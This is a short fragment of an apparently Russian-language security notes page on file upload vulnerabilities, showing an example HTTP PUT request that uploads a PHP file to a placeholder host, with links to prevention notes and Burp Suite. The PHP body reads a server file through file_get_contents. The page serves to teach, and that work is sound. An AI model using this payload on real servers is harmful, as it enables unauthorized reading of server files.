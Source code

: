 ```
PUT /images/exploit.php HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-httpd-php 
Content-Length: 49 

<?php echo file_get_contents('/path/to/file'); ?>
```

----
## [[Защито от уязвимостей при загрузки файлов|Как предотвращать уязвимости загрузки файлов]]



----
# Инструменты

[[Инструмент Burp Suite]]

# Дополнительная информация

[[Методика поиска и развития уязвимости загрузки файлов]]